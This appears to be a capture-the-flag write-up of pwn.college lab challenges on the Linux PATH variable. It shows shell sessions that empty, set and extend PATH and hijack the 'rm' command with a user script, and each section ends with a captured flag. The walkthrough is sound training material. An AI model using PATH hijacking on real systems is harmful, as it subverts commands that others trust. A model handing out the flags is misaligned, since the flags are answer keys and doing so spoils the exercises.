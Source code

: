 
# the-path-variable
```
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
```
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{kHshz8kifTa6UCIq378IVogdMyx.dZzNwUDL3EzN0czW}

# path setting path 
```
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ cd /challenge/more_commands/
hacker@path~setting-path:/challenge/more_commands$ /challenge/run
```
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{Q9yUp-F8SQpKIDFC1rUl5I8K2sH.dVzNyUDL3EzN0czW}

# adding commands 
```
hacker@path~adding-commands:~$ which cat 
/run/workspace/bin/cat
hacker@path~adding-commands:~$ ls -l win
ls: cannot access 'win': No such file or directory
hacker@path~adding-commands:~$ ls -l win
ls: cannot access 'win': No such file or directory
hacker@path~adding-commands:~$ ls -l /run/workspace/bin/cat
lrwxrwxrwx 1 root root 17 Jan  1  1970 /run/workspace/bin/cat -> /run/dojo/bin/cat
hacker@path~adding-commands:~$ touch win
hacker@path~adding-commands:~$ ls -l win
-rw-r--r-- 1 hacker hacker 0 Oct 19 17:06 win
hacker@path~adding-commands:~$ chmod a+x win
hacker@path~adding-commands:~$ nano win
hacker@path~adding-commands:~$ export PATH=/home/hacker:$PATH
hacker@path~adding-commands:~$ echo $PATH
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
```
pwn.college{gKgqq9ACAySMr9z5md7b6EICvpl.dZzNyUDL3EzN0czW}




# hijacking commands 
```
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ export PATH=/home/hacker/:$PATH
hacker@path~hijacking-commands:~$ touch rm 
hacker@path~hijacking-commands:~$ nano rm 
hacker@path~hijacking-commands:~$ ls -l rm
-rw-r--r-- 1 hacker hacker 11 Oct 19 17:13 rm
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ /challenge/run
```
Trying to remove /flag...
Found 'rm' command at /home/hacker//rm. Executing!
pwn.college{cPaLbp3Km7zSuwcAomZxfOAPsPl.ddzNyUDL3EzN0czW}


